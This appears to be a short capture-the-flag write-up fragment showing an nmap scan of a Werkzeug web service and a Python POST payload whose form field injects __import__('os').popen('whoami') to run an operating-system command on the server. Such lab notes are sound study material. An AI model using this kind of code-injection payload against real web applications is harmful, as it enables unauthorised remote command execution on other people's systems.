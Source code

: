 # nmap
```
30105/tcp open  http    Werkzeug httpd 1.0.0 (Python 2.7.17)
|_http-title: \xF0\x9F\x8C\x8C on Venzenulon 9
```

# werkzeug console 
-  allows POST req to modify webapps script by passing our own variable
```python
data = {'ingredient': 'dials', 'measurements': '__import__(\'os\').popen(\'whoami\').read();'}
```

